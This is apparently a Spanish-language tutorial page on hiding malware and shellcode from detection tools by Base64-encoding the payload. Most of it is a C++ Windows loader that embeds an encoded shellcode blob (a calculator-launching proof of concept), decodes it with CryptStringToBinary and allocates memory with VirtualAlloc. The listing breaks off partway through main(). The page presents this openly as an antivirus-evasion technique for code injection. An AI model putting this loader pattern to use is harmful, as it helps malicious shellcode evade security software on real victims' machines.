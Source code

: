 ```yaml
---
layout: default
---
```



# Obfuscación y encriptación de código

Para evitar que el malware o shellcode a inyectar sea detectado por diferentes tipos de herramientas, en muchas ocasiones la mejor de las opciones será la de obfuscar o encriptar el código:

## Obfuscacion o codificación
Una de las tácticas más utilizadas para obfuscar un malware será la de codificar le contenido del payload que se desea inyectar. Ademas de una taćtica se tratará de una técnica utilizada por los desarrolladores para almacenar en el código fuente varaibles con su contenido en raw por lo que no siempore que se encuentren varaibles en el código fuente codificadas se tratará de contenido malicioso.
En la sección .data del binario definido como una varaiable global, se incluirá un payload en Base64 con el shellcode a inyectar.
Esto la añade un paso adicional a la inyección de código básica explicada en secciones anteriores y es lade Decodificar el contenido de la variable en Base64, antes de almacenarlo en la memoria reservada para la ejecución:

```c++
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <Wincrypt.h>
#pragma comment (lib, "Crypt32.lib")

unsigned char calc_payload[] = "/EiD5PDowAAAAEFRQVBSUVZIMdJlSItSYEiLUhhIi1IgSItyUEgPt0pKTTHJSDHArDxhfAIsIEHByQ1BAcHi7VJBUUiLUiCLQjxIAdCLgIgAAABIhcB0Z0gB0FCLSBhEi0AgSQHQ41ZI/8lBizSISAHWTTHJSDHArEHByQ1BAcE44HXxTANMJAhFOdF12FhEi0AkSQHQZkGLDEhEi0AcSQHQQYsEiEgB0EFYQVheWVpBWEFZQVpIg+wgQVL/4FhBWVpIixLpV////11IugEAAAAAAAAASI2NAQEAAEG6MYtvh//Vu/C1olZBuqaVvZ3/1UiDxCg8BnwKgPvgdQW7RxNyb2oAWUGJ2v/VY2FsYy5leGUA";
unsigned int payload_len = sizeof(calc_payload);

int DecodeBase64( const BYTE * src, unsigned int srcLen, char * dst, unsigned int dstLen ) {

	DWORD outLen;
	BOOL fRet;

	outLen = dstLen;
	fRet = CryptStringToBinary( (LPCSTR) src, srcLen, CRYPT_STRING_BASE64, (BYTE * )dst, &outLen, NULL, NULL);
	
	if (!fRet) outLen = 0;  // failed
	
	return( outLen );
}

int main(void) {
    
	void * exec_mem;
	DWORD outLenb64;
	BOOL rv;
	HANDLE th;
    DWORD oldprotect = 0;
	
	exec_mem = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	printf("\nSotred payload in .data section %-20s : 0x%-016p\n", "payload addr", (void *)calc_payload);
```